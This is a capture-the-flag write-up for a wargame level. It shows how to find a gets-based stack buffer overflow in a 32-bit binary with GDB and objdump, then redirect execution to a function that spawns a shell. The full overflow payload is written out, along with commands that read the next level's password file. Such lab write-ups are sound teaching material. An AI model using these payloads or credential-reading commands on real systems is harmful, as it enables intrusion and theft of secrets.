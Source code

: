 # Level 01

## Initial Context

- One file: `level1`

## Solving the Challenge

Running the file without any argument block on an input.
Entering anything does not seems to anything.

```bash
$ echo | ./level1
$ echo a | ./level1
$ echo hello | ./level1
```

But a lot of characters seems to break it.

```bash
$ python -c 'print "A" * 128' | ./level1
Segmentation fault (core dumped)
```

Let's see with GDB.

```bash
$ gdb ./level1
(gdb) run <<< $(python -c 'print "A" * 128')
Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) bt
#0  0x41414141 in ?? ()
#1  0x41414141 in ?? ()
#2  0x41414141 in ?? ()
#3  0x41414141 in ?? ()
#4  0x41414141 in ?? ()
#5  0x41414141 in ?? ()
#6  0x41414141 in ?? ()
#7  0x41414141 in ?? ()
#8  0x41414141 in ?? ()
#9  0x41414141 in ?? ()
#10 0x41414141 in ?? ()
#11 0x41414141 in ?? ()
#12 0x41414141 in ?? ()
#13 0x00000000 in ?? ()
```

We can see a corruption of the stack.

By looking at the assembly code, we can see 2 interesting function, `main` and `run`, that is not calling each others.

```
$ objdump -d ./level1
...
08048444 <run>:
...
 8048472:       c7 04 24 84 85 04 08    movl   $0x8048584,(%esp)
 8048479:       e8 e2 fe ff ff          call   8048360 <system@plt>
 804847e:       c9                      leave
 804847f:       c3                      ret

08048480 <main>:
 8048480:       55                      push   %ebp
 8048481:       89 e5                   mov    %esp,%ebp
 8048483:       83 e4 f0                and    $0xfffffff0,%esp
 8048486:       83 ec 50                sub    $0x50,%esp
 8048489:       8d 44 24 10             lea    0x10(%esp),%eax
 804848d:       89 04 24                mov    %eax,(%esp)
 8048490:       e8 ab fe ff ff          call   8048340 <gets@plt>
 8048495:       c9                      leave
 8048496:       c3                      ret
 8048497:       90                      nop
...
```

`main` is using `gets`, which is exploitable since `gets` will store data until it find an EOF without taking into account the buffer size.

By looking at the assembly code, we can see that `main` is also reserving `0x50` bytes for local variables, and is storing the `gets` buffer at an offset of `0x10`. Meaning that the buffer should be `0x50 - 0x10 = 0x40` or `64`. 

We now need to find the number of byte that will be required to break the stack.
This number must be above the buffer size (`64`) and by an increment of 4 (since we are in 32bit).

By slowing incrementing, 80 bytes (20 * 4) seem to break the stack.

```bash
$ gdb ./level1
(gdb) run <<< $(python -c 'print "ABCD" * 20')
Program received signal SIGSEGV, Segmentation fault.
0x44434241 in ?? ()
(gdb) bt
#0  0x44434241 in ?? ()
#1  0x00000000 in ?? ()
```

We can also see that the values are in little-endian since the "string" is reversed.
So by using 76 dummy bytes followed by a valid function address, we can redirect the stack.

The `run` function is located at `0x08048444` (or `44 84 04 08` in LE).

```bash
$ python -c 'print "A" * 76 + "\x44\x84\x04\x08"' | ./level1
Good... Wait what?
Segmentation fault (core dumped)
```

We can see a message, but its still crashing.

By looking further at the `run` function, we can see that it calls `system("/bin/sh")`.
But by using a pipe, stdin close right after it finished sending our payload. We need to keep it open.

For that we can first put our payload into a file.
Then we need to read it with `cat`, but with re-reading stdin, and sending everything into the pipe.

```bash
$ python -c 'print "A" * 76 + "\x44\x84\x04\x08"' > /tmp/exploit
$ cat /tmp/exploit - | ./level1
Good... Wait what?
whoami
level2
cat /home/user/level2/.pass
<flag>
```
